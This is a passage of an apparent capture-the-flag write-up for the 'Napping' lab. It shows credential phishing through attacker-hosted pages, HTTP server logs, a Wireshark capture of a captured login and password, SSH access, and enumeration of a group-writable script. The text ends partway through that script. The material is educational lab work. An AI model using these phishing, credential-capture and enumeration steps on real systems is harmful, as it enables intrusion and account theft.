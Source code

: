 
<h3>Action</h3>
<p>

- entered <code>http://AttackIP:4444/hello.html</code><br>
- clicked <code>Submit</code>
- clicked <code>Here</code>
</p>

<h3>http servers</h3>

```bash
~/Napping# python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
TargetIP - - [xx/Jul/2025 xx:xx:xx] "GET /hi.html HTTP/1.1" 200 -
```


```bash
:~/Napping# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
TargetIP - - [xx/Jul/2025 xx:xx:xx] "GET /login.html HTTP/1.1" 200 -
```

<h3>Wireshark</h3>

<h3>GET /hi.html</h3>

<img width="747" height="292" alt="image" src="https://github.com/user-attachments/assets/2ba8db48-81ad-4b57-a2a2-b4697fc9422a" />

<h3>GET /login.html</h3>

<img width="753" height="304" alt="image" src="https://github.com/user-attachments/assets/d59f1865-2564-4e64-80a0-1c2d968d9b3e" />


<h3>POST /login.html</h3>
<p>username=daniel&password=C%40ughtm3napping123 --> C@ughtm3napping123</p>

<img width="760" height="160" alt="image" src="https://github.com/user-attachments/assets/731d2ba3-d0f5-40ba-a344-2c4383b2cda0" />


<h3>ssh</h3>

```bash
:~/Napping# ssh daniel@napping.thm
...
daniel@ip-10-10-89-107:~$ id
uid=1001(daniel) gid=1001(daniel) groups=1001(daniel),1002(administrators)
daniel@ip-10-10-89-107:~$ find / -group administrators 2>/dev/null
/home/adrian/query.py
daniel@ip-10-10-89-107:/home$ ls
adrian  daniel  ubuntu
daniel@ip-10-10-89-107:/home/adrian$ ls
query.py  site_status.txt  user.txt
daniel@ip-10-10-89-107:/home/adrian$ cat query.py
from datetime import datetime
import requests

now = datetime.now()

r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
```